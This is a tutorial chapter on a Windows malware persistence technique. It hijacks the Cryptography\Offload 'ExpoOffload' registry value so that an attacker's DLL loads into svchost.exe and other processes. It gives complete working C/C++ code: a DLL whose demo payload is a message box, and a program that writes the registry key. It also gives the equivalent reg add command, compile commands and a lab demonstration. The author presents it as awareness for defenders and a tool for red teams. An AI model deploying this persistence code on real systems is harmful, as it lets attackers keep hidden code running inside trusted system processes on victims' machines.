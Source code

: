 \newpage
\subsection{82. malware development: persistence - part 16. Cryptography Registry Keys. Simple C++ example.}

﷽

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

This article is the result of my own investigation into one of the interesting malware persistence trick: via Cryptography Registry Key.     

In the course of studying the registry, I came across an interesting path:     

`HKLM\Software\Microsoft\Cryptography\`     

And there is a such function `OffloadModExpo`. If I understand correctly, this function is used to perform all modular exponentiations for both public and private key operations:     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

I didn't go into too much detail, the very opportunity to experiment with this key and value in the Windows registry is enough for me. So, I tried to hijacking this DLL path:    

`HKLM\Software\Microsoft\Cryptography\Offload` and key value.    

### practical example

First of all, as usually, create "evil" DLL. As usually, just `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](./images/76/2022-10-21_05-20.png){width="80%"}    

And create Proof-of-Concept code for hijacking (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

That's all I need for experiment.      

### demo

Let's go to see everything in action. Compile our Proof-of-Concept code:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    


Then, for the purity of experiment, check registry keys in the victim’s machine and delete keys if exists:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Then, run our `pers.exe` script and check again:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

And now I'll try to run something. For example, I will try to open `https:\\...` link at the browser or use search bar.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

In the course of performing some cryptographic operations at the background, we will see more and more popups.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Also I couldn't even run `Process Hacker 2` for investigation of the situation.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Then, restore my VM snapshot, run sysinternals `Procmon` with following filters:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

And as a result:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

As you can see at some stage my "evil" `meow-meow` DLL loaded by `svchost.exe`, `ProcessHacker.exe` and other processes.     

So, everything is worked correctly. Perfectly! =^..^=     

After end of experiments, restore my registry state:     

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     
